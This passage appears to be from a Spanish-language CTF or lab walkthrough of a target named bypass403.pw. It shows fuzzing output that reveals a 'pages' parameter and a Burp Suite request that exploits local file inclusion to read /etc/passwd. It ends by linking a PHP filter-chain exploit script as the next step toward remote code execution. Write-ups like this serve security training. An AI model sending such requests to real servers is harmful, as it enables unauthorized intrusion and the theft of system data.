 ```
pages                   [Status: 200, Size: 888, Words: 3, Lines: 20, Duration: 0ms]
:: Progress: [20469/20469] :: Job [1/1] :: 50 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

Veremos que efectivamente hay un parametro llamado `pages`, vamos a comprobar que realmente esta leyendo el archivo `passwd`.

En la peticion de `BurpSuite` vamos a realizar lo siguiente:

```
GET /index.php?pages=/etc/passwd HTTP/1.1
Host: bypass403.pw
Referer: http://bypass403.pw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-10 115154.png" alt=""><figcaption></figcaption></figure>

Por lo que vemos esta funcionando, por lo que vamos a utilizar en este `LFI` unos `wrappers` paar poder ejecutar un `RCE` a ver si nos funciona.

### Wrapper con LFI

URL\_Script = https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit/blob/main/filters\_chain\_oracle\_exploit.py
